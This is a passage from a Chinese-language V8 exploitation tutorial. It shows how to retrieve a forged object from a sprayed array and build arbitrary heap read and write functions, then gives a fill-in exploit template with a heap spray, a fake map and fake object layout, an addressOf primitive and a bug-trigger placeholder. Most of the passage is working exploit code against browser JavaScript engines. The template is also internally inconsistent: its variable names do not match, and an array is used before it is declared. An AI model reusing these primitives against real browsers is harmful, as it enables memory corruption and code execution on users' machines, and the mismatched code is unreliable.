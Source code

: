 然后利用`spray_array`取出该伪造的对象：

var fake_object = spray_array[(save_fake_object_addr - data_element_start_addr) / 4];  

  

后面的堆内任意地址读写就比较简单了，直接利用`victim_array`修改`fake_object`的`element`即可。

  

function arb_read_cage(addr) {  
        victim_array[(fake_object_addr - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x20);  
        return f64_to_u64(fake_object[0]);  
}  
  
function arb_write_half_cage(addr, val) {  
        let orig_val = arb_read_cage(addr);  
        fake_object[0] = pair_u32_to_f64(val, orig_val&0xffffffffn);  
}  
  
function arb_write_full_cage(addr, val) {  
        victim_array[(fake_object_addr - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x20);  
        fake_object[0] = u64_to_f64(val);  
}  

  

模板如下：

  

var spray_array　= new Array(0xf700).fill({}); // 注意  
var element_start_addr = ?;  
var data_element_start_addr = element_start_addr + 7;  
var map_addr = data_element_start_addr + 0x1000;  
var fake_object_array_addr = map_addr + 0x1000;   
var save_fake_object_array_addr = fake_object_array_addr + 0x200;  
victim_array[(map_addr      		- data_element_start_addr) / 8] = pair_u32_to_f64(data_element_start_addr+0x200+1, ?); // 这里也可以直接照抄  
victim_array[(map_addr              - data_element_start_addr) / 8 + 1] = u64_to_f64(?);  
victim_array[(fake_object_addr      - data_element_start_addr) / 8] = pair_u32_to_f64(map_addr+1, 0x6cd);  
victim_array[(fake_object_addr      - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(3, 0x20);  
victim_array[(save_fake_object_addr - data_element_start_addr) / 8] = pair_u32_to_f64(fake_object_addr+1, fake_object_addr+1);  
  
var victim_array = [1.1, 1.1, 1.1, 1.1];  
// trigger bug ==> victim_array->element = element_start_addr  
  
function addressOf(obj) {  
    spray_array[0] = obj;  
    return get_fl(victim_array[0]);  
}  
  
var fake_object = spray_array[(save_fake_object_addr - data_element_start_addr) / 4];  
  
function arb_read_cage(addr) {  
        victim_array[(fake_object_addr - data_element_start_addr) / 8 + 1] = pair_u32_to_f64(addr-8, 0x20);  
        return f64_to_u64(fake_object[0]);  
}  
  